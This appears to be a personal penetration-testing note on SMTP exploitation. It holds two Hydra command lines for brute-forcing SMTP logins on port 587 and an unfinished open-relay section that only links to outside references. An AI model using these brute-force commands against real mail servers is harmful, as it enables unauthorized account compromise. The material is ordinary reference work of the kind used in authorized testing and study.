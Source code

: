 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMTP/Exploitation
---
```


# Exploitation

<!-- Brute Force {{{-->
## Brute Force

Brute force SMTP authentication credentials using various tools

<!-- Hydra {{{-->
### Hydra

Brute force with [[Hydra]] with user

```sh
hydra -l user@target.com -P <passwords.txt> smtp://<target.com>:587
```

Brute force with [[Hydra]] with username list

```sh
hydra -L <usernames.txt> -P <passwords.txt> smtp://<target.com>:587
```
<!-- }}} -->

___

<!-- }}} -->

<!-- Open Relay Attack {{{-->
## Open Relay Attack

> [!todo]
>
> The so-called **Open Relay Attack** can be carried out on many SMTP servers due
> to incorrect configuration

- [HackTricks - Open Relay](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smtp/index.html#open-relay)

- [Hackviser](https://hackviser.com/tactics/pentesting/services/smtp#open-relay-testing)

___

<!-- }}} -->
